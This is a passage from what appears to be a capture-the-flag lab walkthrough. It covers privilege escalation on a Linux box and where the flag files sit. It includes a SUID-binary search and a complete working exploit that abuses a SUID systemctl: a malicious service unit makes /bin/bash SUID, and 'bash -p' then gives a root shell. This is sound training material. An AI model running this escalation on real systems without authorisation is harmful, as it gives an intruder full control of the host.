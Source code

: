 # 6. Privilege Escalation

After gaining access, the next goal is to escalate privileges to root.

## Step 6.1: Check SUID Binaries
Use `find` to look for SUID binaries, which run with elevated privileges:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Some interesting SUID binaries include:
- `/bin/systemctl`
- `/usr/bin/sudo`
- `/usr/bin/pkexec`

## Step 6.2: Exploit `/bin/systemctl` for Privilege Escalation
First, `cd ~` and then use `TF=$(mktemp).service` to create a malicious service that sets the SUID bit on `/bin/bash`:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

After running this, execute:

```bash
/bin/bash -p
```

This gives you a root shell.

---

# 7. Accessing Flags

Once you have root access, you can access protected files, such as:

- **User flag**: `/home/bill/user.txt`
- **Root flag**: `/root/root.txt`

> **Note**: Bill's `user.txt` file could be read without root privileges.

---